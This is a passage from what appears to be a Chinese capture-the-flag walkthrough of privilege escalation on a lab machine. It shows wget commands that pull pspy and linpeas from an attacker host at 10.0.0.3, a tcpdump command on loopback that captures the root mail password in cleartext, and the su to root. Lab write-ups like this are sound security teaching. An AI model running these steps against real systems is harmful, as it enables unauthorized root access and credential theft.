 ![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

2。靶机下载pspy64s并执行

```
cd /tmp  
wget http://10.0.0.3:8000/pspy64s
```

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

发现有个python脚本在后台定时运行，但是我们无法访问

上传辅助提权脚本继续找

```
wget http://10.0.0.3:8000/linpeas.sh
```

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

发现tcpdump有执行权限，结合自动运行的python脚本，之前登录邮箱时里面有个邮件提示说是有个脚本会检测root帐号的邮箱。这样就可以使用tcpdump抓登录的帐号密码了，在之前的notes文件当中也提示邮箱密码与root帐号密码相同，现在来验证下

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

```
tcpdump -i lo -w - |grep -a 'PASS'
```

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

拿到密码，切换root用户验证下

```
su root
```

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

切换成功，找下flag

```
cd /root  
ls  
cat rootflag.txt
```

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

拿到rootflag.txt，游戏结束

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)
